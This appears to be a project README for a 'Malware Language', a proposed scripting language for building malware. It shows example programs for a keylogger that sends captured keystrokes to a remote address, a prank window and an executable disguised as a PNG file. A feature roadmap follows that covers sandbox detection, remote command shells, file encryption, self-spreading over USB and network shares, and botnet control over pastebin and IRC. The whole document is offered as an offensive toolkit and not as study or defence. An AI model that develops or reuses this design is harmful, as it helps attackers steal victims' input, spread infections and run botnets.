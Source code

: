 # Malware Language

Customizing evil has never been so easy

### Example code
Basic example
```
main:{
  malware.name("MrSkeltal"); @ Sets the binary name of our file

  window.x("600");
  window.y("800");
  window.title("You just got hacked bruh!");
  window.url("https://mrskeltal.com/");

  window.run(); @ This runs our nice window, displaying the set url
  system.exit("0");
}
```

Network POST example
```
main:{
 wait:(time.until("22:00")){ @ Waits until 22:00 today before exiting
  info := keyboard.log(); @ Logs everything the user enters
 }

 network.set_user_agent("Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36"); @ Updates the user agent for this request
 network.POST("address", "port", info); @ Will send whatever the user entered 

 system.exit(); @ Exits the program
}
```

Transmog example
```
main:{
 object.set_header_target("png"); @ Will result in the end product being identified as a png
 object.set_extension(".png"); @ Sets the program extension
 
 window.notify("Hello, World!"); @ Prints "Hello, World!" to the screen

 system.exit(); @ Exits the program
}
```

## General ideas on what more the language can do
1. Includes tools to check if the malware is running in a vm, what kind of vm(?)
2. Include options to open socket to target, send commands and retrieve results, copy files, mv files etc.
3. Be able to write to specific disk blocks, write & read from the disk.
4. Encrypt files and decryptions methods. Should contain multiple different encryptions methods
5. Able to copy the executable to different locaitons
6. Metasploit compatability? Being able to run metasploit scripts?
7. Using pastebin for sending commands to zombies in a botnet.
8. IRC for sending commands to zombies in a botnet(?)
9. Copy to usb
10. Copy accross network shared folders

## The compiler should then be able to
1. Target plattform, windows, nix

## Technical parts
1. All directories created are temporarly and should be deleted when the program is finished
2. Internal inputs/outpus are all in json format
